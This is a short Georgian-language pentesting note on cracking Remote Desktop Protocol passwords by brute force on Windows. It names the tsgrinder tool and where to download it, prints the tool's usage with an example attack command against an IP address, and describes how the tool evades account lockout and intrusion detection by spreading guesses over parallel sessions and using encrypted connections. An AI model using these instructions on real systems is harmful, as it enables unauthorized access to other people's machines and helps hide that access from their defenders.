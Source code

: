 Remote Desktop Protocol (RDP, აგრეთე ცნობილი როგორც Microsoft Terminal Services).
პორტი: TCP პორტი 3389.

# პაროლის გატეხვა უხეში ძალით

## ვინდოუსში

RDP-ს პაროლის გასატეხად უნდა გამოიყენოთ პროგრამა tsgrinder.
მისი გადმოწერა: http://www.hammerofgod.com/download.aspx.

```
D:\tsgrinder> tsgrinder

tsgrinder version 2.03


Usage:

  tsgrinder [options] server

Options:

  -w dictionary file (default 'dict')
  -l 'leet' translation file
  -d domain name
  -u username (default 'administrator'
  -b banner flag
  -n number of simultaneous threads
  -D debug level (default 9, lower number is more output)


Example:

  tsgrinder -w words -l leet -d workgroup -u administrator -b -n 2 10.1.1.1
```


tsgrinder ორ ხერხს ხმარობს იმისთვის რომ პაროლის გატეხვის ცდილობა ვერ დაფიქსირდეს.
  * პაროლის გატეხვის მცდელობა ფიქსირდება მხოლოდ იმ შემთხვევაში თუ მომხმარე ექვს პაროლს სცდის და ექვსივე არასწორი გამოდგება. tsgrinder პარალელური სესიების მეშვეობიც სინჯავს 5 პარორლს, ამიტომ მცდელობაც ვერ ფიქსირდება.
  * ეს ხელსაწყო ოყენებს შიფრირებულ RDP კავშირს პაროლით აუთენთირების დროს, ამიტომაც IDS ვერ ადგენს რომ პაროლის გატეხვის პროცესი მიმდინარეობს.
